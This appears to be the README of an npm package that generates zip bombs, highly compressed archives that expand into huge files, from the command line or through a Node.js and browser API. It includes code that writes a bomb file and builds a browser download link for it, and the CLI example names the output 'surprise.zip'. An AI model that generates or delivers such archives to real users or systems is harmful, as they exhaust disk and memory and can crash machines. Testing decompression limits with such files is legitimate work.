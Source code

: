 ## 💣 Zip bomb [![standard][standard-image]][standard-url] [![travis][travis-image]][travis-url] [![npm][npm-image]][npm-url]

[standard-image]: https://img.shields.io/badge/code%20style-standard-brightgreen.svg
[standard-url]: http://standardjs.com/
[travis-image]: https://img.shields.io/travis/harshjv/zip-bomb/master.svg
[travis-url]: https://travis-ci.org/harshjv/zip-bomb
[npm-image]: https://img.shields.io/npm/v/zip-bomb.svg
[npm-url]: https://npmjs.org/package/zip-bomb

[Zip bomb](https://en.wikipedia.org/wiki/Zip_bomb) for Browser and Node.js.

> [⚡️ Live demo here](https://cdn.rawgit.com/harshjv/zip-bomb/master/example/index.html)

## Installation

    npm install zip-bomb

Checkout [API](#api) usage.


## Command line

    npm install -g zip-bomb


### Usage

    Usage: zip-bomb [options]

    Options:

      -h, --help                       output usage information
      -V, --version                    output the version number
      -b, --zero-buffer-size <number>  Zero buffer size
      -l, --buffer-level <number>      Buffer multiplier
      -z, --zip-level <number>         Level
      -o, --output <file>              Output file

    Example:

        zip-bomb -b 10485760 -l 10 -z 50 -o surprise.zip


## API

### `zipBomb.createBuffer(zeroBufferSize, bufferLevel, zipLevel)`

Creates ZIP file `Buffer`.

> returns `Promise`

#### Parameters

* `zeroBufferSize`
  * can be `Number`
  * creates buffer of 0s with provided size
* `bufferLevel`
  * can be `Number`
  * multiplies created buffer with zeros with provided buffer level
* `zipLevel`
  * creates zip `zeroBufferSize * bufferLevel` zeros of provided zip level


### `zipBomb.createDataURL(zeroBufferSize, bufferLevel, zipLevel)`

Creates `DataURL` (for use in browsers)

> returns `Promise`

#### Parameters

Same as `zipBomb.createDataURL(bufferMultiplier, level)`


## Usage

### In Node.js

    const fs = require('fs')
    const zb = require('zip-bomb')

    const fileName = 'zipbomb.zip'

    zb.createBuffer(1024 * 1024 * 10, 10, 10)
      .then((buffer) => {
        fs.writeFile(fileName, buffer, (err) => {
          if (err) throw err

          console.log(`${fileName} is created`)
        })
      })

> **WARNING** `zipbomb.zip` file is evil!


### In Browser (with Browserify or webpack)

    const zb = require('zip-bomb')

    zb.createDataURL(1024 * 1024 * 10, 10, 10)
      .then((dataURL) => {
        const a = document.createElement('a')
        const linkText = document.createTextNode('Click here to download zip bomb')

        a.appendChild(linkText)
        a.href = dataURL
        document.body.appendChild(a)
      })
      .catch((e) => console.error(e))

> Embed bundled file into an HTML page and click on the link to download generated zip bomb!

Or open [/example/index.html](/example/index.html) folder in browser.

## Debug

### In Node.js

Enable debug logs by setting the `DEBUG` environment variable.

    DEBUG=zip-bomb*

### In Browser

Enable debug logs by running this in the developer console.

    localStorage.debug = 'zip-bomb*'

and then reload.

## Test

    npm test

> `standard` only for now. More to come.


## License

MIT
